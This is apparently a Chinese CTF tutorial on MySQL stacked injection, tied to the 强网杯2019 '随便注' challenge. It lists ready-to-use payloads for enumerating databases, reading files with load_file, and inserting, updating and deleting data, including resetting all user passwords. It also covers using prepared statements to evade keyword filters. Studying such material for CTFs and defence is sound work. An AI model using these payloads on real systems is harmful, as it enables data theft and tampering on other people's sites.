 

```sql
# 读取数据
/?id=1';show databases;--+
/?id=1';show tables;--+
/?id=1';show tables from database_name;--+
/?id=1';show columns from table_name;--+

# 读取文件
/?id=1';select load_file('/flag');--+

# 修改数据表的结构
/?id=1';insert into users(id,username,password)values(20,'whoami','657260');--+    # 插入数据
/?id=1';update users set password='657260' where id>0;--+    # 更改数据
/?id=1';delete from users where id=20;--+    # 删除数据
/?id=1';create table fake_users like users;--+    # 创建一个新表
?id=1';rename table old_table to new_table;--+    # 更改表名
?id=1';alter table users change old_column new_column varchar(100);--+    # 更改字段名
```



PHP中堆叠注入的支持情况：

|                    | Mysqli | PDO    | MySQL   |
| ------------------ | ------ | ------ | ------- |
| 引入的PHP版本      | 5.0    | 5.0    | 3.0之前 |
| PHP5.x是否包含     | 是     | 是     | 是      |
| 多语句执行支持情况 | 是     | 大多数 | 否      |



#### 下面是MySQL堆叠注入的几种常见姿势。



以  buu例题，强网杯2019(随便注)为例：



##### 1. 预处理语句+堆叠注入



（1）在遇到堆叠注入时，如果select、rename、alter和handler等语句都被过滤的话，我们可以用**MySql预处理语句配合concat拼接**来执行sql语句拿flag。



1. PREPARE：准备一条SQL语句，并分配给这条SQL语句一个名字(`hello`)供之后调用
2. EXECUTE：执行命令
3. DEALLOCATE PREPARE：释放命令
4. SET：用于设置变量(`@a`)



预处理语句使用例子：



```sql
PREPARE x from '[my sql sequece]';  //预定义SQL语句
EXECUTE x; //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE x; //删除预定义SQL语句
```
